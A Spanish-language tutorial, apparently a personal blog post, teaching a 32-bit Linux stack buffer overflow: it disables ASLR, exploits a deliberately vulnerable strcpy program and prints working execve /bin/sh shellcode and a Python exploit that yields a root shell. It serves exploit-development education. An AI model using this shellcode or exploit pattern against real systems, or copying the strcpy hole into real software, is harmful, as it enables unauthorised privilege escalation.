 ```yaml
---
title: "Stack Buffer Overflow Linux 32 Bit (Part I)"
layout: single
excerpt: "En este artículo enseñó a crear y usar un exploit de desbordamiento del buffer para ganar un Shell abusando de funciones inseguras como strcpy, getenv etc. También muestro como funciona el binario a bajo nivel, los registros ESP, EIP y como emplear herramientas como gdb o hexedit para editar binarios en hexadecimal."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg">
</p>

El desbordamiento del búfer o *Buffer Overflow* en Inglés, sucede cuando el programador no hace la suficiente desinfección en el código de un programa. Esto permite sobrepasar el búfer definido y por ello apuntar a ciertos registros para inyectar `shellcode` y derivar a una ejecución de código arbitrario en el sistema.

En este artículo aprovecharemos la función `strcpy` considerada como insegura para sobrepasar un búfer definido y de este modo sobrescribir los registros *ESP*, *EIP* para ganar *RCE*. No tendremos ningún tipo de restricción como ASLR (aleatorización en las direcciones de memoria) o DEP (prevención de ejecución de datos).

Para desactivar ASLR es muy facil, enviamos un 0 como input a `/proc/sys/kernel/randomize_va_space` y listo.

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Para comenzar necesitamos un binario vulnerable a *BoF*, por eso he encontrado este script basico en C que hace uso de `strcpy`.

```c
#include <string.h>
#include <stdio.h>
void main(int argc, char *argv[]) {
        copier(argv[1]);
        printf("Done!\n");
}
int copier(char *str) {
        char buffer[100];
        strcpy(buffer, str);
}
```

Este script no tiene ninguna utilidad, lo que hace básicamente es copiar el primer argumento que le pasemos como *input* y guardarlo en un búfer e imprimir *Done* por pantalla, la vulnerabilidad está en el uso de `strcpy`.

Para la compilación este debe ser en 32 bits, por ello será necesario usar el parámetro `-m32` de `gcc`, de lo contrario os lo creará en 64 bits.

![https://imgur.com/fn2Pckf.png](https://imgur.com/fn2Pckf.png)
![https://imgur.com/pzcdTJT.png](https://imgur.com/pzcdTJT.png)

> Los parámetros utilizados en la compilación son para desactivar algunas restricciones.

Esto nos genera un binario ejecutable, entonces probamos a pasarle una A para verificar que funcione.

![https://imgur.com/UdKB266.png](https://imgur.com/UdKB266.png)

Bien, funciona, ahora vamos a usar `gdb` para monitorear el uso del programa a bajo nivel, le pasamos el parámetro `-q` para la lectura de símbolos y ejecutamos el comando `list` para ver el código.

![https://imgur.com/rRySz6h.png](https://imgur.com/rRySz6h.png)

Haremos un `breakpoint` en la línea 10, ya que la vulnerabilidad no sucede en la función `main`, usamos el comando `break 10`.

![https://imgur.com/P08ILaY.png](https://imgur.com/P08ILaY.png)

Le pasamos 4 bytes como argumento al programa con el comando `run`.

![https://imgur.com/bgUgHwh.png](https://imgur.com/bgUgHwh.png)

Una vez hecho, usamos el comando `info registers` para ver los registros.

![https://imgur.com/25SPQqD.png](https://imgur.com/25SPQqD.png)

Listamos el registro `ESP` con `x/40x $esp`. 

![image](https://user-images.githubusercontent.com/69093629/154841169-af286bb4-b75b-48e7-b64e-cc44f38bd475.jpg)

Como se puede apreciar se ha sobrescrito una direccion de memoria con las 4 As en ANSI.

Ahora bien, ¿que sucede si le pasamos al programa mas 100 As?, vamos a comprobarlo.

![https://imgur.com/Jig6VcD.png](https://imgur.com/Jig6VcD.png)

Se ha producido un Desbordamiento de pila y el binario ha crasheado.

Me he creado un pequeño script en Python que imprima por pantalla mas de 100 As y lo he exportando como BoF.

```python
#!/usr/bin/python3
print("A"*116)
```
![https://imgur.com/ql9LNNA.png](https://imgur.com/ql9LNNA.png)

Le pasamos las As y miramos el registro ESP.

![image (2)](https://user-images.githubusercontent.com/69093629/154843836-0299b369-0d73-4f69-9dbd-ed282d6a0113.jpg)

Como veis están todas las A que le hemos pasado al binario, esto ha sobrescrito hasta la dirección de retorno, vamos a modificar el `retturn address` con `hexedit`, ejecutamos `hexedit` + nombre del binario.

![https://imgur.com/yrbDTpc.png](https://imgur.com/yrbDTpc.png)

Y cambiamos los últimos valores.

![https://imgur.com/olJtCYE.png](https://imgur.com/olJtCYE.png)

Ahora volvemos a ver el registro ESP.

![image (3)](https://user-images.githubusercontent.com/69093629/154845769-4705cb24-ded4-4929-a108-cd7a7e1bfdf4.jpg)

La dirección de retorno ha cambiado, pero está en `little endian`, es decir al revés.

Ahora vamos a calcular el `offset`, es decir las A que tenemos que introducir antes de que el programa corrompa. Para ello hay una herramienta llamada `pattern_create` la cual te crea una cadena especial para luego computar el `offset` con `pattern_offset`.

Le pasé los bytes en los que corrompe el programa.

![https://imgur.com/6u3tOVD.png](https://imgur.com/6u3tOVD.png)

Una vez la cadena creada se la pasamos al programa como argumento.

![https://imgur.com/6szLUpb.png](https://imgur.com/6szLUpb.png) 

La dirección que reporta la copiamos y la pegamos en `pattern_offset`.

![https://imgur.com/Rgoo3Rw.png](https://imgur.com/Rgoo3Rw.png)

Ahí esta, el `offset` son 112 bytes. Ahora haremos uso de NOPS para rellenar los bytes faltantes antes del `shellcode` y llevar el flujo del programa sin problemas.

Necesitamos un `shellcode` para ganar acceso con un Shell, para ello usé el siguiente de 32 bytes.

```bash
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

Y me he creado un pequeño exploit en Python2 con el siguiente código.

```python
#!/usr/bin/python2

nops = '\x90' * 64
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (112 - 64 - 32)
eip = "\xb0\xd3\xff\xff"
print nops + shellcode + padding + eip
```

Lo que hace es generar 64 bytes de NOPS `x90` y guardarlos en la variable NOPS, después defino otra variable `shellcode` con el `shellcode`, valga la redundancia, y en la variable `padding` hago los cálculos restando los 112 bytes del `offset`, menos los 64 de los NOPS y los 32 del `shellcode` y creo la cadena de A's del número restante. En la dirección EIP introducimos una del trineo de NOPS en `little endian` para evitar errores, ya que esta estará apuntando a la siguiente instrucción a ejecutar. Y finalmente quedaría algo así.

`\x90\x90.. → \x31\xc0\x89.. → AAAA.. → \xb0\xd3\xff\xff`

Si miramos el resultado en hexadecimal con `hexedit` veremos algo así.

![https://imgur.com/0YAugr1.png](https://imgur.com/0YAugr1.png)

Exporto el exploit como `exp`.

![https://imgur.com/cPzxbeO.png](https://imgur.com/cPzxbeO.png)

Y le hacemos un `cat` al archivo exportado.

![https://imgur.com/KaYXfl8.png](https://imgur.com/KaYXfl8.png)

Y hemos ganado un Shell como `root` en el sistema.

